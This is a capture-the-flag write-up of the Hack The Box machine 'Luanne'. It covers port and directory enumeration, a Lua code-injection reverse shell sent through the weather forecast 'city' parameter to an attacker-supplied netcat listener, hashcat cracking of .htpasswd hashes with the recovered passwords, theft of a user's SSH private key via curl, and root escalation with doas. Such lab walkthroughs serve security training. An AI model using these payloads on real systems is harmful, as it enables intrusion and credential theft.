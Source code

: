 ```yaml
---
title: Luanne Hackthebox Writeup
date: 2020-12-01 09:00:00 +0800
categories: [Hackthebox, Active]
tags: [bsd,doas,hashcat,cracking,hashes,ssh,reverse shell,lua,gobuster,directory enumeration,netbsd,luanne,hackthebox]     # TAG names should always be lowercase
image: /assets/img/luanne-hackthebox/luanne-pic.png
subtitle: JHBDOcubeoveiubo
---
```


# Introduction@Luanne:~$


Column | Details
------------ | -------------
Name | Luanne
IP | 10.10.10.218
Points | 20
Os | BSD
Difficult | Easy
Creator | [polarbearer](https://www.hackthebox.eu/home/users/profile/159204)
Out on | 28th November 2020

# Summary:~$

* Discovering the new host and scanning for open ports.
* Checking **robots.txt** and enumerating the `directories`.
* Generating a reverse shell in `Lua`.
* Getting a low priviveleged shell, and traversing in every directory.
* **Cracking** hash using `hashcat`.
* Accessing an unexplored port i.e. `3001`.
* Extracting `id_rsa` of one of the users : `r.michaels` using a crafted **curl** command.
* Loging into `r.michaels` using **ssh** with **id_rsa**.
* Manually `enumerating` and looking for interesting files.
* Decrypting a file using `netpgp` : A tool for decrypting files in BSD.
* **Cracking** another hash using `hashcat`.
* **Escalating** privileges as **root** using `doas` command in BSD.

# Starting:~$

## Nmap

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Dowload link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/pulkittalwar/assets/img/luanne-hackthebox/xx-alternate-nmapautomator.png)


Basically 3 ports are open : `22:ssh` `80:http` `9001:http-Medusa`.

I looked at **port 80** which showed `/weather` as one of the directories.

Accessing `http://10.10.10.218`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latestt-01.png)


Accessing `http://10.10.10.218/robots.txt`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-02.png)


Accessing `http://10.10.10.218/weather`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-03.png)


It shows a `404 error` , enumerating directory with `gobuster`.

**Command used:** `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.218/weather/ -t 100`

___
![](/pulkittalwar/assets/img/luanne-hackthebox/gobuster.png)


I got another directory as `/forecast`. Further accessing and providing the parameter as `city`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-04.png)


___
![](/pulkittalwar/assets/img/luanne-hackthebox/latest-05.png)


Trying to create an `error` with which is `%27` in URL encode.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/creating-error.png)


From the error I got to know that a language called `Lua` is being used.

After some research I created a `reverse shell`.

**Shell Command :** *http://10.10.10.218/weather/forecast?city=London'+os.execute("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR-IP 4444 >/tmp/f ")+'*

URL encoding the reverse shell payload, sending it and listening on `nc`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/initial-foothold-shell-10.png)


I got a shell as `_httpd`.

After that, I manually enumerated the files and while accessing `/var/www/`, I got a `.htpasswd` file.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/webapi-user-12.png)


I used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/hashcat-commad-cracking-14.png) ___

Got the password as `iamthebest`. I logged in port 80 but couldn't find anything there.

Accessing `port 9001`, and entering **user:123** as random username:password.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/port-9001-login-access-17.png)


Further I checked `http://10.10.10.218:9001/logtail/processes`. I found the following:

___
![](/pulkittalwar/assets/img/luanne-hackthebox/logical-process-3001-port.png)


To understand in detail, read this : [Userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) and [Userdir-feature](https://websiteforstudents.com/configure-nginx-userdir-feature-on-ubuntu-16-04-lts-servers/).

Getting `id_rsa` of the user: `r.michaels`.

**Command Used:** *curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa*

___
![](/pulkittalwar/assets/img/luanne-hackthebox/id-rsa-r.michaels-19.png)


Proving permissions to `id_rsa` as `600`. Loging in as `r.michaels` using ssh and id_rsa.

**Command Used:** *chmod 600 id_rsa* 

*ssh -i id_rsa r.michaels@10.10.10.218*

___
![](/pulkittalwar/assets/img/luanne-hackthebox/ssh-loggedin-21.png)


Got `User Flag`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/user-flag-22.png)


Further enumerating manually, I got a `backup file` in `/home/r.michaels/backups/`. As it was encrypted so I used `netpgp` command to decrypt it.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/backups-r.michales-encrypt-23.png)


**Command Used:** *netpgp --decrypt devel_backup-2020-09-16.tar.gz.enc --output=/tmp/output.tar.gz*

___
![](/pulkittalwar/assets/img/luanne-hackthebox/netpgp-decrypt-output-25.png)


___
![](/pulkittalwar/assets/img/luanne-hackthebox/unzip-gunzip-28.png)


After accessing `devel-2020-09-16/www/.htpasswd`, I got another hash: *webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.*

Again used `Hashcat` to crack the hash.

**Hashcat Command:** *hashcat -m 500 -a 0 /home/pulkittalwar2611/Desktop/hashes rockyou.txt --force*. Where the hash is stored in the file called `hashes`.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/hash-crack-root-30.png)


Got the password as `littlebear`.

To upgrage `privileges` in BSD, following command is used : *doas -u root /bin/sh* and then enter the password you got.

___
![](/pulkittalwar/assets/img/luanne-hackthebox/root-31.png)


Got `Root Flag`.


